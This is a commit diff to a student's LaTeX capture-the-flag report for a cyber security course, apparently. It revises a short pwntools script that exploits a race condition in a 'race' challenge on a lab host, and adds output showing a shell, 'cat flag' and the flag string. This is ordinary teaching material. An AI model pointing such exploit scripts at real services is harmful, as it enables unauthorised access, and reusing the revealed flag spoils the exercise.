

Before and after one commit to HiIAmTzeKean/CS3312-Cyber-Security-Systems, a LaTeX document (race1/report.tex): part of page 3 of 3 before the commit and two parts of pages 3 and 4 of 4 after it, the two joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
feat: race 1

```diff
--- a/race1/report.tex
+++ b/race1/report.tex
@@ -203,29 +209,27 @@ we can call \code{menu_go} one more time, setting \code{b=6}. With that, we can
 now call \code{menu_test} allowing us to fulfill the check condition.
 
 \begin{lstlisting}[language=python]
-  from pwn import *
+  from  pwn import *
 
-  race = process('./race')
-  # wait for prompt for choice 1
-  race.recvregex(b'>')
-  # send choice 1 go
+  context.arch = 'i386'
+  race = remote('10.0.0.10',40015)
+  race.recvuntil(b'>')
   race.sendline(b'1')
-  # wait for prompt for choice 2
-  race.recvregex(b'>')
-  # send choice 2 chance
+  race.recvuntil(b'>')
   race.sendline(b'2')
-  # wait for prompt for choice 3
-  race.recvregex(b'>')
+
+  race.recvuntil(b'>')
   race.sendline(b'1')
-  race.recvregex(b'>')
+  race.recvuntil(b'>')
   race.sendline(b'2')
-  race.recvregex(b'>')
+
+  race.recvuntil(b'>')
   race.sendline(b'1')
-  race.recvregex(b'>')
-  # send choice 3 test
+  race.recvuntil(b'>')
   race.sendline(b'3')
   # wait for response
   print(race.recvline())
+  race.interactive()
 \end{lstlisting}
 
 we create a python program that aids us in calling the required choices fast
@@ -233,3 +237,4 @@ enough such that the race condition happens. Running the above python code
 allows us to `win' the CTF. Running the above in python3 with pwntools package
 installed will allow us to run the exploit successfully.
 
+\begin{lstlisting}[language=bash]
@@ -236 +245,8 @@ installed will allow us to run the exploit successfully.
+  Win!
+  $ whoami
+  ctfer
+  $ cat flag
+  flag{race_r3ce_Race!!!!}
+\end{lstlisting}
+
 \end{document}
```
Also changed, not shown: race1/report.pdf, race1/report.tex (12 more changed lines), 1 other file.
